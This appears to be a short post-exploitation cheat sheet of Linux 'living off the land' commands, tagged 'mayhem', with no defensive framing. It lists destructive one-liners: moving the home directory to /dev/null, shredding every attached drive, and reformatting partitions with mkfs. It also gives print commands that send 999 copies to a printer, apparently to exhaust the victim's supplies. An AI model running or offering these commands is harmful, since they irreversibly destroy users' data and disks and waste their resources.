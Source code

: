 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - miscellaneous
  - mayhem
  - living-off-the-land
  - linux
---
```

# Living off the Land

## 01 - Erase `$HOME` Directory

```
$ mv ~ /dev/null
```

## 02 - Shred Drive

```
# shred -n 5 -vz /dev/sd[a-z]
```

## 03 - Format Drive

```
$ hdparm -I /dev/sd[a-z]

# mkfs.ext4 /dev/sd[a-z][0-9]
```

## 04 - Print Files

Start CUPS service.

```
$ sudo systemctl start cups
```

Convert PDF file to Postscript.

```
$ pdf2ps file.pdf file.ps
```

Set default printer device.

```
$ lpoptions -d <printer_name> -l
```

Set default printer device and print A4 size paper.

```
$ lpoptions -d <printer_name> -o PageSize="A4"
```

Print files

```
$ lp -d <printer_name> -n 999 file.ps

$ lp -d <printer_name> -n 999 file.txt

$ lpr -P <printer_name> file.ps

$ pr -l 60 file.txt | lpr
```

---
## References

- [Linux Hint: Print File From Powershell Script](https://linuxhint.com/print-file-from-powershell-script/)